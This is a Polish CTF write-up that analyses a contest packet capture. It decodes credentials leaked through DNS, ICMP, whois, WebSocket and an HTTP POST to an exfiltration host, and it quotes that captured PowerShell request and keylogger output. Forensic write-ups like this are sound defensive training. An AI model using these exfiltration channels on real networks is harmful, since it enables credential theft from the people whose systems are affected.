









Kolejny trywialny konkursik :)
0x00 Kolejny PCAP do analizy⌗
W poprzednim artykule, przedstawiłem rozwiązanie zadania, które polegało na wyzerowaniu pomiarów smart licznika w celu małej korekcji kosztów ogrzewania mieszkania przez pana Kowalskiego. Udało się rozwiązać zadanie jako pierwszemu (co było dziwne, bo zadanie należało do tych z serii proste i trochę przekombinowałem patrząc na rozwiązanie podrzucone przez autora). Od tamtego momentu pojawiły się jeszcze dwa zadania, które również udało mi się zgłosić i załapać na główną nagrodę (jeden opisałem tu) :) dziś będzie o tym ostatnim konkursie, który pojawił się razem z całkiem fajną prelekcją (a może webinarem?) Pawła Maziarza na temat różnych zastosowań PowerShella oczywiście.
0x01 Kończąc przydługi wstęp…⌗
…wskoczmy od razu do tego o co w tym wyzwaniu chodziło. Wejściowy PCAP znajduje się (a przynajmniej znajdował 03 VII 2020 godz. 19:26 CEST) tu. Celem graczy było odpowiedzenie na poniższe trzy podpunkty:
Kolejne kroki należą do Ciebie! Twoje zadanie polega na:
Znalezieniu lokalizacji sejfu
Podaniu PIN otwierającego skrytkę
Podaniu metody eksfiltracji wraz z wyeksfiltrowanymi danymi – prosimy o podanie przynajmniej 3ech metod, ale im więcej tym lepiej
W tym zadaniu skorzystałem ze standardowego narzędzia, oczywistego wyboru jeśli chodzi o analizę PCAPów - WireSharka. Pewnie jakieś konsolowe wersje czy też - o czym dowiedziałem się od Kolegi na Dicordzie - narzędzia online jak to, dałyby sobie radę. Wszak chodzi tylko o przeanalizowanie ruchu sieciowego.

Zapis pakietów zaczyna się zaszyfrowaną sesją SSH. Od samego początku wydawało mi się, że jest to raczej mało prawdopodobny kanał do eksfiltracji danych. Dlatego też nie skupiałem się za nadto nad analizą tych pakietów. Później sam autor wyzwania sprostował:
Ze swojej strony dodam, że podczas analizy tego pcapa należy zwrócić uwagę na to jakie dane zostały wyeksfiltrowane (najlepiej dołączyć do odpowiedzi). Pozwoli to uniknąć false-positive, bo jeśli nie widać jakie dane były eksfiltrowane (np. w TLS), to oznacza, że tak eksfiltrowane nie były.
0x11 Lokalizacja sejfu⌗
Zadanie zacząłem od tyłu, nie zgłębiając się w konkretne pakiety wyświetliłem sobie ciągi znaków poleceniem strings. Warto nadmienić, że to narzędzie może nie jest najlepszym pomysłem w przypadku niezaufanych plików dlatego zalecam uważać :).

Od razu ciąg wysłany jako Authorization: Basic wydaje się ciekawy. Standardowo w tym nagłówku przesyłany jest ciąg będący zakodowanym w BASE64 tekstem składającym się z dwóch rozdzielanych dwukropkiem pól ID:pass. Nie inaczej jest tym razem.
Literka:\fakepath\
λ echo YWRtaW46U2VqZiB6bmFqZHVqZSBzaWUgbmEgdWxpY3kgR3JvZHpraWVqIDEwLzExIHphIG9icmF6ZW0gVXBhZGxlaiBNYWRvbm55IHogV2llbGtpbSBDeWNlbS4gUElOIGRvIHNlamZ1IHRvIDg4OTE4ODEu | base64 -d
admin:Sejf znajduje sie na ulicy Grodzkiej 10/11 za obrazem Upadlej Madonny z Wielkim Cycem. PIN do sejfu to 8891881.
Wygląda na to, że podpunkt 1) mamy załatwiony. Gdyby ktoś nie zrozumiał aluzji to jest to nawiązanie do tego i serialu ’Allo ’Allo!. Ja nie wiedziałem.
0x12 I sposób eksfiltracji⌗
Spoglądając na dump pierwsze co rzuca się w oczy jest nawiązanie połączenia a potem wysłanie zapytania GET /g/dnsex. Jak sama nazwa wskazuje może chodzić o eksfiltrację przez DNS (piszę to z pełną powagą :) ). Daleko szukać nie musimy, zapytanie kieruje tu czyli kodu PowerShella, który eksfiltruje dane z wykorzystaniem zapytań DNS. Sama idea działania skryptu jest na tyle prosta, że nie ma sensu abym próbował go tłumaczyć.

Bardzo pomysłowe. Na kolanie napisałem wyrażenie w Pythonie, które wyglądało mniej więcej tak:
In [17]: def totext(intarr):
...: a = intarr.split('.')[:2]
...: txt = ""
...: for i in a:
...: for j in textwrap.wrap(i,2):
...: txt += chr(int(j, 16))
...: return txt
I wszystkie ciągi znajdujące się pomiędzy __begin__ oraz __end__ spróbowałem czymś takim zdekodować.

Aby ułatwić sobie pracę i nie przepisywać jak stażysta wyciągnąłem stringsy z PCAPa i wrzuciłem je w zbiór (set) aby pozbyć się duplikatów. Po zdekodowaniu wyszło coś takiego:
admin1001:P@ssw0rd!!
administrator:Wladca2020!
operator:ITRulez0101
support:support/it/2020
lukasz:Wiosna2020!
michal:Jesien2020!
Dark:uUta5653iiasndasduYyqadi123
Ciekawe czy Paweł używa gdzieś tego ostatniego hasła… ;)
0x13 II sposób eksfiltracji⌗
Kolejnym sposobem eksfiltracji było wykorzystanie protokołu ICMP. Tutaj znowu hint podszedł od tyłu do zawodnika i uderzył go w potylicę. Kod eksfiltrujący dane znajduje się tu i również nie będę zanudzał Czytelników jego interpretacją (mam na myśli, że wszystko jest czytelne, bo samo podejście do zagadnienia jest bardzo ciekawe i znane od dawna). Należy przyjrzeć się polu data. Tym razem złożyłem to takim wyrażeniem
In [21]: for i in w:
...: print(''.join(chr(int(j, 16)) for j in textwrap.wrap(i,2)))
Domyślam się, że da się ładniej i łatwiej, ale moim celem było zrobić to szybko a nie według sztuki. Główna zasada CTFów cokolwiek działa - działa (tłumaczenie własne).

W efekcie otrzymałem
---begin---
--- 04.06.2020 20:00 Keylogger start ---
Czesc,
as
https://wladcysieci.pl/log-in/
admin
WladcaWielki/Doskonaly
:wq
---end---
(Polecam :x albo ZZ btw, jest szybciej #vimprotip)
0x14 III sposób eksfiltracji⌗
Surfując dalej po pakietach, przewijając kolejne strumienie TCP natrafiłem na ciekawe zapytanie POST. O tyle ciekawe, że wysłane na port 1.
POST / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; pl-PL) WindowsPowerShell/5.1.18362.752
Content-Type: application/x-www-form-urlencoded
Host: exfil.aptmc.pl:1
Content-Length: 134
Connection: Keep-Alive
.[A
..u.s.e.r.:.j.o.l.a.n.t.a...k.u.k.u.k.u.b.a.,.d.o.m.a.i.n.:.s.i.g.m.a.g.u.a.r.d...a.d.,.p.a.s.s.w.o.r.d.:.1.q.2.w.3.e.$.R.K.o.t.y.

0x15 IV sposób eksfilracji⌗
Następnym sposobem na wycieknięcie (przepraszam, nie mogłem się powstrzymać) komuś danych z sieci było wykorzystanie zapytania whois.
administrator
Wladca997Sieci---

0x16 V sposób eksfiltracji⌗
Przewijając pakiety w głównym oknie WireSharka natrafiamy na zapytanie GET na port 8181, które powoduje przejście na protokuł WebSocketów. Dalej wysyłane są nimi następujące bajty:
admin887190001 WWladcySiecinimajaHasla..nieDo/za8pa&mietania

Za ostatni sposób eksfiltracji danych uznałem zapytanie przedstawione w podpunkcie lokalizacja sejfu. I cóż, to wystarczyło.

0x20 Podsumowanie⌗
Reasumując, zadanie jakie było każdy widzi :) zajęło mi może z 15 minut. Najwięcej czasu poświęciłem na szukanie jakiejś podpuchy, fałszywej flagii, miejsca gdzie mógłbym wykorzystać działające credentiale (jeśli kogoś interesuje - nie, nie pasują do wladcysieci.pl). Zadania mogłyby być trudniejsze, co nie jest tylko moim głosem. Dziwię się, że z moim powolnym tempem nie zostałem wyprzedzony :) ale dzięki temu mogę się cieszyć z hattricka rozwiązań. Niestety w tym tygodniu nie było żadnego wyzwania :(. Jeśli czas pozwoli będę zaglądał na stronę organizatorów, może znów wezmę udział w zabawie. Wladcomsieci dziękuję za zabawę, paczuszki do mnie dotarły :) Do następnego!
foxtrot_charlie over and out!
Comments
Nothing yet.
Say something